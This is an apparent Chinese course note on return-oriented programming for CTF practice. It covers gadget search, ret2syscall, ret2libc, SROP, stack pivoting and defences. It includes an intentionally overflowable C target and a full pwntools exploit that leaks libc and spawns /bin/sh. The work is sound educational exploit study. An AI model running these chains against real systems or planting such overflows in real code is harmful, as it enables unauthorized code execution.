




# 22. ROP：返回导向编程

> 日期：2026-11-04
> 所属大纲阶段：4. 系统与二进制安全
> 参考资料：
> - Hovav Shacham, "The Geometry of Innocent Flesh on the Altar: Return-Oriented Programming"（CCS 2007，ROP 开山论文）
> - 《CTF 权威指南：Pwn》第 4 章
> - pwntools 官方文档（ROP 模块、SigreturnFrame）
> - ROPgadget / ropper GitHub 仓库 README
> - one_gadget（david942j）GitHub README
> - libc-database（niklasb）与 libc.rip / libc.blukat.me 在线查询

**声明：本篇所有靶机、脚本仅用于本地学习环境与 CTF 题目。例题 `ciscn_2019_c_1` 风格的教学复刻在本机自行编译，未对任何外部系统执行。**

---

## 1. 为什么需要 ROP

- 2000 年代初，NX/DEP（Data Execution Prevention，数据执行保护，Linux 下称 NX，由 CPU 的 XD/NX 位配合页表实现）普及：**栈/堆/数据页不再可执行**，注入 shellcode 后跳过去执行 = 直接 SIGSEGV（笔记 21 §6 的路线死亡）。
- 早期绕过 ret2libc：跳到 libc 现成函数（如 system），只能进行有限参数的调用。
- 2007 年 Shacham 形式化 **ROP（Return-Oriented Programming，返回导向编程）**：证明**无需注入任何代码**，仅用程序已有的指令片段，就能达成图灵完备的计算——「用对方自己的代码，组成一段新的程序」。
- 防御视角一句话：NX 消灭了「执行注入数据」，ROP 回答了「不注入也能执行任意逻辑」，此后攻防焦点转向**控制流完整性**（CFI/CET）。

---

## 2. ROP 基本原理

### 2.1 gadget

**gadget（指令片段）**：以 `ret` 结尾的一小串指令，例如：

```asm
pop rdi ; ret        ; 弹栈到 rdi，再弹栈到 rip —— 「设置一个参数」的最小单位
pop rsi ; pop r15 ; ret
mov rax, [rdi] ; ret
xchg rax, rsp ; ret   ; 栈迁移可用
```

关键洞察：**ret 本身就是「从栈上取下一条执行位置」**。只要控制了栈内容（溢出就能做到），一连串 ret 就变成「一条由 gadget 地址串成的程序」。x86 变长指令还允许**从指令中间取址**：字节 `5f c3` 在某条长指令内部恰好解码为 `pop rdi; ret`，gadget 数量因此巨大。

### 2.2 ROP 链图示



**ret 滑链**：一串裸 `ret` 地址（如 `0x40101a, 0x40101a, ...`）什么都不做只把 rsp 往上挪——用于调整对齐（§10）或穿越无关数据。

---

## 3. gadget 搜索工具

```bash
# 方式一：ROPgadget（pip 装的命令行）
$ ROPgadget --binary ./ret2libc | grep "pop rdi"
0x0000000000401203 : pop rdi ; ret
0x0000000000401201 : pop rdi ; pop rbp ; ret
$ ROPgadget --binary ./ret2libc --only "pop|ret"     # 只要 pop/ret 组合
$ ROPgadget --binary ./ret2libc | grep ": ret$"      # 找裸 ret（对齐垫片）

# 方式二：ropper（另一实现，搜索语法更强）
$ ropper -f ./ret2libc --search "pop rdi"
$ ropper -f ./ret2libc --nocolor > gadgets.txt       # 全量导出慢慢挑

# pwntools 内置（够用且免切换工具）
$ python3 -c "
from pwn import *
elf = ELF('./ret2libc')
print(ROP(elf).find_gadget(['pop rdi','ret']))"
```

常用 gadget 清单（优先级从高到低）：

| gadget | 用途 |
|--------|------|
| `pop rdi ; ret` | 64 位第一参数 |
| `pop rsi ; ret` / `pop rdx ; ret` | 第二、三参数（rdx 的常最难找） |
| `pop rax ; ret` | syscall 号（ret2syscall） |
| `syscall ; ret` | 64 位直接系统调用 |
| `leave ; ret` | 栈迁移（§9） |
| 裸 `ret` | 对齐垫片 |
| `pop rsi ; pop r15 ; ret` | `__libc_csu_init` 尾部的著名产出，兼当 rsi setter |

注意：`pop rdx` 在很多二进制里找不到，常用替代——`__libc_csu_init` 的 universal gadget（旧 glibc < 2.34 工具链的可执行文件通用，含动态链接 no-PIE 题；Ubuntu 22.04 起默认编译已无此符号）、或从 libc 里找（拿到 libc 基址后 gadget 无限多）。

---

## 4. 前菜：32 位 ret2syscall（int 0x80）

**ret2syscall**：不调用库函数，直接用 ROP 拼「寄存器 + int 0x80」发起系统调用。32 位下参数寄存器是 **ebx/ecx/edx/esi/edi**（对应第 1~5 参），调用号在 eax。

32 位 execve("/bin/sh", 0, 0) 的汇编形态：

```asm
; execve 系统调用号 0xb（11），32 位约定：ebx=路径 ecx=argv edx=envp eax=号
push 0x68732f2f      ; "//sh" 小端压栈
push 0x6e69622f      ; "bin/" → 栈上拼出 "/bin//sh"
mov ebx, esp         ; ebx 指向字符串
xor ecx, ecx         ; argv = NULL
xor edx, edx         ; envp = NULL
mov al, 0xb          ; __NR_execve = 11
int 0x80             ; 陷入内核
```

ROP 化（经典 ctfwars 例题结构）：静态编译的二进制里找

```text
pop eax ; ret   → 0xb
pop ebx ; ret   → binsh 地址（程序 .data 里常自带，strings 可搜）
pop ecx ; ret   → 0
pop edx ; ret   → 0
int 0x80        → 触发
```

```python
payload = flat(b'A'*offset,
    pop_eax, 0xb,
    pop_ebx, binsh_addr,
    pop_ecx, 0,
    pop_edx, 0,
    int80)
```

64 位对应版本：`pop rdi`（路径）、`rsi=rdx=0`、`pop rax; 59`、`syscall`。ret2syscall 适合**静态链接**（无 libc 可泄）或「禁用 libc 输出」的题目；64 位实战主流仍是下一节的 ret2libc。

---

## 5. x86-64 ret2libc 完整流程（本篇主菜）

### 5.1 思路总览

ret2libc（Return to libc）：不执行注入代码，**返回到 libc 中的函数**（system 等）。难点只有一个：**ASLR 下 libc 基址未知**。解法 = **信息泄露 + 二次利用**：



为什么用 puts 泄露？① 它在 PLT 里现成可调（`puts@plt`）；② 参数一个就够；③ 遇 \0 才停止输出（结尾的换行符是 puts 自动追加的），地址的 6 字节（0x7f…）恰好不含 \0，正好能收回。

### 5.2 为什么 64 位必须先 pop rdi

64 位参数走寄存器（笔记 19 §7）：`system(char *cmd)` 的参数在 **rdi**。溢出只能控制**栈**，所以必须先找一个 `pop rdi; ret` 把栈上的值装进 rdi，再 ret 到 system——这就是整条链的形状。对比 32 位参数本来就在栈上，直接把参数排在返回地址后面即可。

### 5.3 教学靶机（仅限本地学习环境）

```c
// ret2libc.c —— 教学复刻 ciscn_2019_c_1 风格，仅限本地学习环境
#include <stdio.h>

void vuln(void) {
    char buf[0x20];
    puts("Tell me something about you:");
    read(0, buf, 0x100);            // 溢出 0x100 >> 0x20
}

int main(void) {
    setvbuf(stdout, 0, 2, 0);
    vuln();
    puts("bye~");
    return 0;
}
```

```bash
gcc -m64 -O0 -no-pie -fno-stack-protector -o ret2libc ret2libc.c
checksec --file=./ret2libc
#   RELRO: Partial RELRO   Stack: No canary   NX: enabled   PIE: No PIE
# → 无 canary 可溢出、无 PIE 程序地址固定、NX 开 → 必须 ret2libc；GOT 可写备用
```

### 5.4 准备素材（命令记录）

```bash
# 偏移：gdb 里 cyclic
pwndbg> cyclic -l 0x6161616b        # → 40（"kaaa"），即 offset = 0x28
# 手算核对：buf[0x20] + saved rbp 8 字节 = 0x28 = 40，与 cyclic 实测一致

# gadget
$ ROPgadget --binary ./ret2libc | grep -E "pop rdi|: ret$"
0x0000000000401203 : pop rdi ; ret
0x000000000040101a : ret

# 符号
$ objdump -d -M intel ret2libc | grep -E '<(puts|main|vuln)>'
#   puts@plt=0x401040  vuln=0x4011b6  main=0x4011d9（示例值）

# GOT
$ objdump -R ret2libc | grep puts       # JUMP_SLOT puts → 0x404018
```

### 5.5 完整 exp（逐行注释）

```python
#!/usr/bin/env python3
# exp_ret2libc.py —— 仅限本地学习环境
from pwn import *

context(arch='amd64', os='linux', log_level='debug')

elf  = ELF('./ret2libc')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')   # 必须与靶机实际 libc 一致！
# 若题目提供了 libc：libc = ELF('./libc-2.31.so')

p = process('./ret2libc')

offset   = 0x28
pop_rdi  = 0x401203
ret      = 0x40101a          # 裸 ret：对齐垫片
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
vuln     = elf.symbols['vuln']

# ---------- 第一轮：泄露 puts 真实地址 ----------
payload1 = flat(
    b'A' * offset,           # 填到返回地址
    pop_rdi,                 # rdi ← puts@got
    puts_got,
    puts_plt,                # puts(puts@got 的内容) → 打印 libc 中 puts 地址
    vuln,                    # 打完返回 vuln，栈重新可用，再溢出一次
)
p.sendlineafter(b'about you:', payload1)

# puts 输出 6 字节地址 + '\n'；recvline 去掉换行后补零展开
puts_leak = u64(p.recvline()[:-1].ljust(8, b'\x00'))
log.success('puts@libc = %#x', puts_leak)

libc.address = puts_leak - libc.symbols['puts']   # 一行完成基址定位
log.success('libc base = %#x', libc.address)

# ---------- 第二轮：system("/bin/sh") ----------
system_addr = libc.symbols['system']
binsh       = next(libc.search(b'/bin/sh\x00'))    # 在 libc 映像里找字符串
log.info('system=%#x  /bin/sh=%#x', system_addr, binsh)

payload2 = flat(
    b'A' * offset,
    ret,                     # ★ 对齐垫片：确保进入 system 时 rsp % 16 == 0（§10）
    pop_rdi,
    binsh,                   # rdi = "/bin/sh"
    system_addr,
)
p.sendlineafter(b'about you:', payload2)

p.interactive()
```

运行效果：

```text
$ python3 exp_ret2libc.py
[+] Starting local process './ret2libc': pid 31815
[+] puts@libc = 0x7f9d0a86b42c
[+] libc base = 0x7f9d0a805000
[*] system=0x7f9d0a849290  /bin/sh=0x7f9d0a9e1c68
[*] Switching to interactive mode
$ id
uid=1000(user) ...
```

### 5.6 libc 偏移查询：泄露之后的另一半拼图

exp 里 `libc.symbols['puts']` 的前提是**手上有同版本 libc 文件**。没有时用泄露值反查：

- **libc-database**（本地/自建）：`./find puts  f7c0`——用「符号名 + 地址低 12 位」（页内偏移不受随机化影响）搜出候选版本，再 `./download 2.31-0ubuntu9.9_amd64`；
- 在线版：libc.rip（search by symbol）、libc.blukat.me——输入 puts/printf 等多个符号的低 12 位交叉定位；
- 原理：ASLR 只随机化**页对齐的基址**，符号在 libc 内的偏移恒定，所以低 12 位是「指纹」。

---

## 6. 构造 system("/bin/sh") 的细节

### 6.1 找 "/bin/sh"

```bash
$ strings -t x /lib/x86_64-linux-gnu/libc.so.6 | grep "/bin/sh"
 1b45bd /bin/sh            # 文件内偏移，加上基址即运行时地址
```

pwntools：`next(libc.search(b'/bin/sh\x00'))`。找不到时的兜底：用 `read(0, bss, 8)` 把字符串自己写进可写段，再传给 system。

### 6.2 system 的副作用与退路

- system 内部 `fork+execl("/bin/sh", "-c", cmd)`——它比 execve 慢且依赖 `/bin/sh` 存在；
- system 失败常见三因：①栈未对齐（§10）；②rdi 指向的字符串不可读；③环境被 setvbuf/sandbox 干扰。
- 退路一：`execve("/bin/sh", 0, 0)` 全手拼（需 rdi/rsi/rdx 三个 gadget，或 SROP 一把梭）。

### 6.3 one_gadget

**one_gadget**：libc 中「一个地址直接起 shell」的位置——execve("/bin/sh", ...) 的调用现场，省去整条链。

```bash
$ one_gadget /lib/x86_64-linux-gnu/libc.so.6
0x50a37 posix_spawn(rsp+0x1c, "/bin/sh", 0, rsp+0x50, ...)
constraints:   ← 必须逐条满足，否则必崩
  rsp & 0xf == 0        （又是对齐！）
  rcx == NULL
  [rsp+0x70] == NULL
0xe3b2e execve("/bin/sh", r15, r12)
constraints: [r15] == NULL || r15 == NULL ...
```

用法：泄露基址后 `one_gadget 地址 + 基址` 直接当返回地址。经验：**约束中的寄存器/栈状态要靠 gdb 断在返回处现场核对**，试多个 gadget 直到某个约束天然满足；栈题里经常「差一个 NULL」，此时回到 pop 链或 SROP 反而稳。

---

## 7. SROP 简介

**SROP（Sigreturn-Oriented Programming）**：滥用 **rt_sigreturn（syscall 15）** 的「恢复现场」能力。内核处理信号前把**全部寄存器**压进用户栈上的 `rt_sigframe`，信号返回时 sigrestorer 调 `rt_sigreturn`，内核**不加校验地**按栈上帧恢复寄存器——若我们能伪造这帧并触发 syscall 15，就等于「一次设置全部寄存器」。

```c
// rt_sigframe 关键字段（简化）
struct rt_sigframe {
    void   *pretcode;         // sigreturn 之后的“返回地址”（实际被内核忽略）
    struct ucontext {         // ← mcontext（sigcontext）：全部通用寄存器 + rip + rsp + eflags
        unsigned long r8..r15, rdi, rsi, rbp, rbx, rax, rcx, rdx, orig_rax;
        unsigned long rip, rsp, eflags, ...;   // 其后还有 cs/fs/gs 等段寄存器与 fpstate
    } uc;
    struct siginfo info;      // 与各段 padding
};
```

最小 SROP 链（x86-64）：



pwntools 内置：

```python
frame = SigreturnFrame()
frame.rax = constants.SYS_execve
frame.rdi = binsh_addr
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall_addr      # libc 里的 syscall 指令
frame.rsp = some_writable
payload = flat(pop_rax, 15, syscall_gadget, bytes(frame))
```

**何时用**：① seccomp 禁了 system 只许 orw（open/read/write）时一把梭寄存器；②gadget 极少（`pop rdx` 缺失）凑不齐参数；③32 位与 64 位同理。限制：需要一个可控的 `syscall` 触发点与足够的栈空间。

---

## 8. JOP / COP 一句话区分

- **JOP（Jump-Oriented Programming）**：以 `jmp reg / call reg`（间接跳转）为分发核心，gadget 用寄存器接力，不依赖栈——针对未来 shadow stack 的备选路线；
- **COP（Call-Oriented Programming）**：以**函数指针/虚表调用**为跳板串起逻辑，面向对象程序（C++ vtable）里常见。
- 一句话记忆：**ROP 靠 ret 吃栈，JOP 靠 jmp 吃寄存器，COP 靠 call 吃对象里的函数指针**。CET 主要针对 ret/jmp 的滥用，COP/数据流攻击是下一阶段的战场。

---

## 9. 栈迁移（stack pivot）

**适用场景：溢出长度极小**（比如只能覆盖 saved rbp+返回地址共 16 字节，塞不下链），此时把栈搬到一块我们**能大面积写**的区域（.bss、堆、环境变量附近），在新栈上展开完整 ROP。

核心 gadget：**`leave; ret`** 等价于：

```asm
mov rsp, rbp    ; rsp ← rbp（rbp 已被我们覆盖成目标区地址）
pop rbp         ; rsp += 8（顺带把目标区第一项当 rbp 弹掉）
ret             ; 从“新栈顶”取下一条指令 → 链在新区展开
```



溢出 payload 只需两字段：

```python
payload = flat(b'A'*offset, fake_stack, leave_ret)
#                    └覆盖 saved rbp┘  └覆盖 ret ┘
```

其余常见迁移 gadget：`xchg rax, rsp; ret`（配合能控 rax 的场景）、`add rsp, 0x??; ret`（小距离挪）、`pop rsp; ret`（直接弹新栈）。判断标准：**找一个能把可控寄存器/内存送进 rsp 的指令序列**。

---

## 10. 栈对齐：movaps 崩溃详解（经典坑）

**现象**：exp 在 gdb 里成功、直接运行崩在 system 内部，`bt` 顶帧是 `do_system+0x??`，崩溃指令是 `movaps xmm0, [rsp]` 或 `movaps [rsp], xmm`。

**原因**：System V ABI 要求 call 时刻 rsp 16 字节对齐（笔记 19 §7.3）。glibc 的 system/do_system 使用 SSE 指令 `movaps`，它**硬性要求操作地址 16 对齐**，非对齐直接触发 #GP → SIGSEGV。我们的 ROP 链是「ret 顶替 call」进入 system，对齐状态完全由链上垫了多少字节决定——差 8 字节就崩。

**修复**：在 `system_addr` 前垫一个**裸 ret**（0x40101a 之类），ret 弹 8 字节恰好把对齐翻转：

```python
payload = flat(b'A'*offset,
    ret,            # ★ 仅当崩溃时才加；先试不带，崩 movaps 再垫
    pop_rdi, binsh, system_addr)
```

**快速判断法**：泄露返回后 gdb 断在 `payload 布局完成、即将 ret` 处，`p $rsp % 16`——进入函数时若为 8 才对（call 压过返回地址的等效状态）；不对就加/去垫片。另一招：直接用 one_gadget 的 constraint 提示（`rsp & 0xf == 0`）反推。

---

## 11. 完整例题 walkthrough（仅限本地学习环境）

以 §5.3 教学靶机为例，从拿到文件到 getshell 的标准动线：

```text
1) file ret2libc
   → ELF 64-bit LSB executable, x86-64, dynamically linked（含符号更友好）

2) checksec --file=./ret2libc
   → Partial RELRO / No canary / NX enabled / No PIE
   → 结论：可溢出、地址固定、但 NX → 走 ret2libc；无 canary 省 leaks

3) strings -t x ret2libc | less
   → "Tell me something about you:" 确认输入点；无 "/bin/sh"（要去 libc 找）

4) gdb ./ret2libc → b vuln → r → cyclic 200 → 崩 → p/x $rsp 指向值
   → cyclic_find → offset = 0x28

5) ROPgadget --binary ret2libc | grep "pop rdi" → 0x401203
   objdump -R ret2libc | grep puts → puts@got=0x404018

6) 若不知 libc 版本：跑一次 exp 只发 payload1，收 puts 低 12 位 (…42c)
   → libc-database: ./find puts 42c → 得 2.31-0ubuntu9.x → 换用该 libc

7) 完整 exp（§5.5）→ python3 exp_ret2libc.py → $ id 验证

8) 崩在 movaps？→ §10 垫 ret 重跑。
```

这道题浓缩了栈题的「标准三板斧」：**checksec 定路线 → cyclic 定偏移 → 泄露定基址**。之后的变体题（canary 版、PIE 版、seccomp 版）只是在这三步里各加一道锁。

---

## 12. ASLR 与信息泄露的关系

| 随机化对象 | 基址变化 | 对利用的约束 |
|------------|----------|--------------|
| 程序本体 | PIE 时随机；no-PIE 固定 0x400000 | no-PIE：gadget/后门直接用 |
| libc / 其他 so | 随机 | **必须先泄一个 libc 符号地址** |
| 栈 | 随机 | 需要栈地址的场景（ret2shellcode、大链）必须泄栈地址 |
| 堆 | 随机（randomize_va_space=2） | 堆题常借 unsortedbin 泄 libc、泄 heap 地址 |

为什么「泄露一个就够」：`基址 = 实际地址 - 已知偏移`，而偏移在**同名 libc 文件里恒定**。这就是所有 64 位题「第一段必是泄露」的根本原因；反之，防御者封掉一切输出（stdout 重定向、seccomp 禁 write）就是想掐断这条路。禁 write 时攻方转 orw 读写 flag 文件——攻防继续螺旋。

---

## 13. 防御视角：让 ROP 变难

| 防御 | 作用机制 | 现状 |
|------|----------|------|
| PIE + Full RELRO | 程序与库地址全随机 + GOT 只读 | ROP 依赖泄露；泄露面收窄则难度陡增 |
| **CET / Shadow Stack**（Intel，Tiger Lake+ 硬件；内核 `user_shstk`） | 影子栈：call/ret 的返回地址副本存于只读影子栈，ret 时比对，**ROP 的 ret 劫持直接被拦** | 生态缓慢铺开（`-fcf-protection` 的 endbr64 只是间接跳转标记，属于 CET 第一层 IBT） |
| seccomp/sandbox | 禁 execve 等，getshell 失效 | 攻方降级为 orw 直读 flag |
| CFI（控制流完整性） | 间接跳转白名单 | 部分浏览器/内核已用（如 LLVM CFI） |
| 源头治理 | 栈保护、安全函数、Rust/边界检查语言 | 见笔记 21 §9 对照表 |

ROP 出现 18 年后，硬件影子栈第一次真正威胁「ret 链」的存在根基——但 JOP/COP、数据流攻击随即补位。学习时建议把「防御 → 新绕过」的每一步都串起来看。

---

## 14. 常见坑

1. **忘垫 ret 导致 movaps 崩溃**（§10）：gdb 里成功 ≠ 真实成功，gdb 环境的栈初始状态可能碰巧对齐。
2. **libc 不匹配**：本地系统 libc 与题目 libc 版本不同，偏移全错且**不一定立刻崩**（可能执行到奇怪的地方）。务必 `ldd --version` 核对 / 用题目附带 libc + patchelf（笔记 24 §11）。
3. **泄露字节处理**：`recvline()[:-1]` 与 `recv(6)` 混用导致把提示语当地址；地址 6 字节要 `ljust(8, b'\x00')` 后 u64。
4. **`puts` 泄露遇 `\n` 截断**：若泄露值第 6 字节恰是 0x0a 会少一字节——换 printf/printf@plt 的 `%p` 输出或 write。
5. **payload 用 sendline 多出 \n**：链尾是地址时，\n 落在新栈顶，后续 ret 解释成 0x0a 崩溃。统一 `send`。
6. **ROPgadget 地址取错列**：输出里第一列是地址；grep 时把 `:` 后内容当地址的低级错误。
7. **vuln 二次进入时偏移/对齐变化**：第二轮返回 main 而不是 vuln、或函数重入后栈深不同——都以**当前断点实测**为准。
8. **one_gadget 约束没核对**：直接套用最上面的 gadget 而不看 constraints，稳定崩；用 gdb 断点核对寄存器/栈值再选。

---

## 15. 自测问题

1. 用自己的话解释：为什么 NX 之后「注入执行」死了，而 ROP 活了？ROP 的图灵完备性依赖 x86 的什么特性？
2. 默写 64 位 ret2libc 两轮利用的完整步骤，并说明每一步各解决什么未知量。
3. 为什么选 puts 作泄露函数？换成 printf@plt 泄露 `printf@got` 写出对应链式结构（提示：变参 al 置 0）。
4. 泄露得到 `puts_addr = 0x7f8c1a2f5420`，本地 libc-2.31 的 puts 偏移 0x84420，求 libc 基址与 system（偏移 0x52290）地址。
5. `pop rdx` 找不到时有哪些替代方案？分别依赖什么条件？
6. leave; ret 如何实现栈迁移？画出新栈从被指向到链展开的每一步。
7. SROP 相比常规 ROP 的优势是什么？伪造 rt_sigframe 时必须正确设置哪几个字段才能 execve？
8. exp 崩在 `do_system` 里的 movaps，给出两种修复方式并说明原理。
9. libc-database 为什么用「地址低 12 位」就能定位 libc 版本？
10. Full RELRO + PIE + Canary 全开的 64 位程序，栈溢出利用前需要哪些信息？把它们按获取顺序排列。
11. Shadow Stack 若全面部署，本篇哪些技术直接失效？JOP 为什么能补位？

---

（完。下一篇：`23-格式化字符串漏洞.md`——不用溢出，一个 printf 就能读写任意内存。）

---

## 附：ASCII 图 → Mermaid 替换清单

| 原 ASCII 图（小节 · 内容） | 替换后类型 |
| --- | --- |
| 「2.2 ROP 链图示」节 · 栈布局+执行流双列图 | flowchart TD（双 subgraph） |
| 「7. SROP 简介」节 · 最小 SROP 链栈布局图 | flowchart TD |
| 「9. 栈迁移（stack pivot）」节 · fake_stack 布局图 | flowchart TD |
| 「5. ret2libc」节 · 两轮（泄露→攻击）流程图 | flowchart TD |
